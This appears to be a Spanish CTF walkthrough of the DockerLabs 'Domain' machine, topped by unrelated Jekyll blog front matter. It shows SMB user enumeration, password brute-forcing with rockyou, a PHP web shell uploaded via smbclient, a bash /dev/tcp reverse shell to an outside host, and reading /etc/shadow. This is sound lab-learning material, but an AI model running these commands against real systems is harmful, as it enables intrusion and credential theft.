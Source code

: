 ```yaml
---
layout: post
title: Blog2
subtitle: Welcome to Jekyll Theme Gungnir
header-img: img/in-post/2020-10-07/header.jpg
header-style: text
catalog: true
tags:
  - 摸鱼
---
```


Información
Máquina: Domain
Creador: El Pingüino de Mario
SO: Linux
Dificultad: Medium
Esta máquina está alojada en DockersLabs, una nueva plataforma creada por ElPingüinoDeMario con un concepto diferente al que estamos acostumbrados, en lugar de conectarnos a una vpn o virtualizar una máquina se realiza la conexión a la máquina vulnerable a través de Docker, pudiendo correr en la propia máquina atacante la víctima, una muy buena idea para ahorrar recursos.

El tutorial para poder realizar estas máquinas se encuentra aquí

Comenzamos realizando un ping para confirmar visibilidad entre máquinas


Realizamos un nmap para descubrir que servicios están corriendo en la máquina


Vemos que hay un servidor web Apache y un servidor samba corriendo.


Samba es una suite de aplicaciones Unix que habla el protocolo SMB (Server Message Block). Los sistemas operativos Microsoft Windows y OS/2 utilizan SMB para compartir por red archivos e impresoras y para realizar tareas asociadas.

En la web nos encontramos una breve explicación de qué es samba y para qué se usa.

Realizo un fuzzeo en busca de directorios, subdirectorios y subdominios interesantes pero sin éxito.

Nos centramos en el servidor smb, lanzamos enum4linux, para una posible enumeración de usuarios

enum4linux 172.17.0.2

Descubrimos dos usuarios: James y Bob

Creamos un diccionario con los dos nombres para realizar fuerza bruta con crackmapexec

crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
-----------------------------------------------------------------------------------
SMB         172.17.0.2      445    86B2D8C57A0E     [+] 86B2D8C57A0E\bob:star 
Conseguimos las credenciales para bob: bob@star

smbmap -H 172.17.0.2 -u 'bob' -p 'star'

Nos encontramos con que bob tiene permisos para modificar la carpeta html del servidor Apache, vamos a intentar subir un archivo PHP para realizar RCE.

Para acceder al recurso en el servidor smb usamos el comando:

smbclient //172.17.0.2/html -U bob

Hacemos una pequeña prueba subiendo un archivo con el comando ‘put’


Llamamos al archivo y comprobamos que funciona correctamente


Modificamos nuestro archivo rce.php subiendo un cmd para realizar el RCE

<?php
        system($_GET['cmd']);
?>
Volvemos a realizar la comprobación:


Procedemos a enviar una revshell

bash -c "bash -i >%26 /dev/tcp/192.168.0.84/4444 0>%261"

Conseguimos una shell como el usuario www-data, nos cambiamos al usuario bob y comprobamos los privilegios.

 

Pruebo a leer el /etc/shadow desde nano con este procedimiento de GTFObins



No somos capaces de leerlo, sin embargo haciendo la llamada directamente con el binario sí somos capaces de leer el shadow.
